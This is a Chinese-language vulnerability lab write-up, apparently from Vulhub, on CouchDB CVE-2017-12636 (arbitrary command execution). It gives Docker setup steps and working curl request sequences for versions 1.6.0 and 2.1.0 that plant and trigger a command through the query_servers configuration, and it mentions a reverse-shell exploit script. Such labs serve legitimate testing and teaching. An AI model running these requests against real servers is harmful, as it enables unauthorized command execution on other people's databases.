 # Couchdb 任意命令执行漏洞（CVE-2017-12636）

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1

参考链接：

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## 测试环境

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:5984/`即可看到Couchdb的欢迎页面。

## 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)先增加一个管理员用户。

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![](1.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![](2.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令。

## 利用脚本

写了一个简单的脚本 [exp.py](exp.py)，修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](3.png)
